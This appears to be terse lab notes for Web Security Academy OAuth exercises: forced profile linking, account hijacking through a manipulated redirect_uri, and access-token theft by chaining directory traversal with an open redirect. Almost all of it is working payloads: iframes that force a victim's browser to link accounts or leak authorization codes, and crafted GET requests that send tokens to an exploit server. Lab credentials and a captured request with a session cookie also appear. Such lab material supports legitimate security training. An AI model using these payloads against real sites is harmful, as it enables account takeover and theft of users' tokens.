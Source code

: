 ### Forced OAuth profile linking

There are 2 accounts given:

wiener:peter

peter.wiener:hotdog

Before you perform account linking, if you try and login via social media and use peter.wiener:hotdog, the system creates/uses/has a default peter.wiener693053 account which will link to that social media account

```
<iframe src="https://0a5900e1040b91c0c058152c00e60008.web-security-academy.net/oauth-linking?code=f6lamp_Nu7DAF0BpgLBzyeieBl1uD2cXmkSetchquhb"></iframe>
```

### OAuth account hijacking via redirect_uri

```
<iframe src="https://oauth-0ad500da0463b667c0c1b64e02c600b7.web-security-academy.net/auth?client_id=e6htvprzej5xatvnnrlpw&redirect_uri=https://exploit-0ac400a10411b6b9c0e7b67b017a00e0.web-security-academy.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>
```

### Stealing OAuth access tokens via an open redirect

Redirect URI has a whitelist but is also vulnerable to directory traversal

```
GET /auth?client_id=zhc2pvbayr0jc8cxh6bea&redirect_uri=https://0a3900b50443d6d2c0ec86a500510059.web-security-academy.net/oauth-callback/../post?postId=1&response_type=token&nonce=1023742561&scope=openid%20profile%20email

GET /auth?client_id=zhc2pvbayr0jc8cxh6bea&redirect_uri=https://0a3900b50443d6d2c0ec86a500510059.web-security-academy.net/oauth-callback/../post/next?path=/post?postId=1&response_type=token&nonce=-1112233063&scope=openid%20profile%20email

GET /auth?client_id=zhc2pvbayr0jc8cxh6bea&redirect_uri=https://0a3900b50443d6d2c0ec86a500510059.web-security-academy.net/oauth-callback/../post/next?path=https://0a3900b50443d6d2c0ec86a500510059.web-security-academy.net/post?postId=1&response_type=token&nonce=-1112233063&scope=openid%20profile%20email 

GET /auth?client_id=zhc2pvbayr0jc8cxh6bea&redirect_uri=https://0a3900b50443d6d2c0ec86a500510059.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a810022047cd668c0bd866201e2004f.web-security-academy.net/exploit&response_type=token&nonce=-1112233063&scope=openid%20profile%20email
```

```
GET /oauth-callback HTTP/1.1
Host: 0a3900b50443d6d2c0ec86a500510059.web-security-academy.net
Cookie: session=1CvlroAQa2BOCG5erXJtler4hPqwAO2v
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a3900b50443d6d2c0ec86a500510059.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```